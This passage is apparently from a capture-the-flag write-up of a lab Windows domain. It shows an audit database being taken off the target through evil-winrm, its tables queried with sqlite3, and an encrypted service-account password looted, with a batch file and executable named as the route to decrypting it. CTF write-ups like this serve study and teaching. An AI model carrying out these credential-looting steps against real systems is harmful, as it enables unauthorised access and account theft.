 We find an interesting Audit database file and exfiltrate it directly with evil-winrm.

Using sqlite3, we can examine it. `.schema` shows the tables in the database.

```
sqlite> .schema
CREATE TABLE IF NOT EXISTS "Ldap" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"uname"	TEXT,
	"pwd"	TEXT,
	"domain"	TEXT
);
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE IF NOT EXISTS "Misc" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"Ext1"	TEXT,
	"Ext2"	TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"Username"	TEXT,
	"Name"	TEXT,
	"DistinguishedName"	TEXT
);
```

The `DeletedUserAudit` table shows that TempAdmin has been deleted, another piece of information to bear in mind,

```
sqlite> SELECT * FROM DeletedUserAudit;
<SNIP>
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
```

Also, the `Ldap` table contains a `pwd` field so let's loot it.

```
sqlite> SELECT * FROM Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

It appears to be an encrypted password for `ArkSvc`.

## Decompiling For Decryption Function

A batch file, `RunAudit.bat` in the `Audit` share gave us a clue towards decrypting the password.

```
*Evil-WinRM* PS C:\shares\audit> type RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

Let's take a closer look at `CascAudit.exe`.
